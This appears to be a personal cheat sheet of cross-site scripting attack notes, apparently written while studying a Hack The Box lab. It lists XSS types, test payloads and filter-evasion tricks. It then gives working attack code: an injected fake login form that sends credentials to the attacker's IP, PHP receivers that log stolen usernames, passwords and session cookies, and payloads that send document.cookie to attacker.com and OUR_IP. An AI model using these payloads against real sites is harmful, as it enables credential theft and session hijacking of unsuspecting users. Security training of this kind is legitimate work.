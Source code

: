 Abuses Sanitation of `write` user input.

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
### Types of Attacks
|Type|Description|
|---|---|
|`Stored (Persistent) XSS`|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|`Reflected (Non-Persistent) XSS`|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|`DOM-based XSS`|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

### Stored XSS
Stored in back-end database. 
The attack is persistent no matter the user.
#### Testing Payloads 
```JavaScript
<script>alert(window.origin)</script>
```
Sometimes alert  is blocked. 
Other examples:
`<plaintext>`
`<script>print()</script>`
### Reflected XSS
Non persistent and never reach the back-end
Do not occur on page refreshes.

To reach a target, send a payload contain the data.
Look at the GET request on dev settings. 
#### Test 
```JavaScript
<script>alert(window.origin)</script>
```
### DOM-Based

Data from an attacker controlled source such as a URL that has inner html.
```url 
http://example.com/query?=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>
```

#### Test
```javascript
<script>alert('xss')</script>
```
### Basic Filter Evasion 
Use the offending tag twice
```javascript
<src<script>ipt>alert('XSS')</src<srcipt>ipt>
```
Changing capitalisation 
```JavaScript
<sCRiPt>alert('xss')</ScriPT>
```

## Phishing
### XSS Discovery 
```url 
http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg
```

```url
http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>
```

HTML Login Form 
```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Payload
`document.getElementbyID` Removes the original form to make it look better 
```javascript
document.write('<h3>Please login to continue</h3><form action=http://[OUR_IP]><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Write a file in the server root that returns the user back to the page original page
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
One Liner (change return URL)
```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
echo '<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>' > index.php
sudo php -S 0.0.0.0:80
```


## Session Hijacking
If the XSS is blind load a script 
```html
<script src="http://OUR_IP/script.js"></script>
```
Add this with every field to work out which one is vulnerable to xss
```html
<script src="http://10.10.15.21/username"></script>
```


### Receiver one liner
```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

### Hijack session
Once this works we can now session hijack
Example payloads 
Add this in our `script.js`

```javascript
document.location='http://10.10.15.21/index.php?c='+document.cookie;


new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
Payload to send
```html
<script src=http://OUR_IP/script.js></script>
```
Save the cookies:
```php
mkdir /tmp/tmpserver
cd /tmp/tmpserver
echo '
<?php
if (isset($_GET["c"])) {
    $list = explode(";", $_GET["c"]);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER["REMOTE_ADDR"]} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>' > index.php
sudo php -S 0.0.0.0:80
```
